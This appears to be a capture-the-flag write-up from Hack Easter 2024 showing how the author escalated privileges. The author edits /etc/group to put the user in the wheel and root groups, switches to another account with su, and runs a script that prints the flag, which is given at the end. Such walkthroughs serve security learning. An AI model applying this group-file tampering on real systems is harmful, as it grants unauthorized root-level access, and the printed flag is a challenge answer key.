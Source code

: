     touch /var/lock/subsys/local

## How to get the flag: Wheel group in /etc/group
The su permission seems to be missing because of the missing wheel group assignment. This can be corrected directly in /etc/group. Here the complete command line trace:

    [minion@9706f0d02e1d ~]$ vi /etc/group
    [minion@9706f0d02e1d ~]$ cat /etc/group
    root:x:0:minion
    bin:x:1:
    daemon:x:2:
    sys:x:3:
    adm:x:4:
    tty:x:5:
    disk:x:6:
    lp:x:7:
    mem:x:8:
    kmem:x:9:
    wheel:x:10:minion
    cdrom:x:11:
    mail:x:12:
    man:x:15:
    dialout:x:18:
    floppy:x:19:
    games:x:20:
    tape:x:33:
    video:x:39:
    ftp:x:50:
    lock:x:54:
    audio:x:63:
    users:x:100:
    nobody:x:65534:
    utmp:x:22:
    utempter:x:35:
    input:x:999:
    kvm:x:36:
    render:x:998:
    systemd-journal:x:190:
    systemd-coredump:x:997:
    dbus:x:81:
    tss:x:59:
    sgx:x:996:
    systemd-oom:x:995:
    ssh_keys:x:994:
    sshd:x:74:
    minion:x:1000:

    [minion@9706f0d02e1d ~]$ su -l boss
    Password: 
    [boss@9706f0d02e1d ~]$ ls
    lockdown.sh
    [boss@9706f0d02e1d ~]$ ./lockdown.sh 
    ZONE LOCKDOWN initiated!

    Flag:  he2024{z0ne_l0ckd0wn_succ3ssfully_tr1gg3r3d}\n
    ZONE LOCKDOWN completed, good bye.
    Connection to ch.hackyeaster.com closed by remote host.
    Connection to ch.hackyeaster.com closed.


## The Flag 🚩
    he2024{z0ne_l0ckd0wn_succ3ssfully_tr1gg3r3d}
